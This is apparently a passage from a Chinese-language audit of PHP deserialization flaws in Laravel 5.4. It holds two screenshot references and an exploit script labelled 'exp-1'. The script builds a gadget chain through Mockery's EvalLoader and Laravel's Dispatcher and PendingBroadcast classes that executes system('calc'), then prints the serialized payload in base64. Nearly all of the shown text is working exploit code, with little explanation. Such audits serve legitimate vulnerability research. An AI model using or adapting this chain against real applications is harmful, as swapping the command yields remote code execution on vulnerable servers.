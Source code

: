<img src="./Laravel5.4 反序列化代码审计/poc-6-2.png" alt="">

<img src="./Laravel5.4 反序列化代码审计/poc-6-3.png" alt="">

### exp-1
```php
<?php
namespace Mockery\Generator {
    class MockConfiguration {
        protected $name = 'H3rmesk1t';
    }
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct() {
            $this->config = new MockConfiguration();
            $this->code = "<?php system('calc');?>";
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition();
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```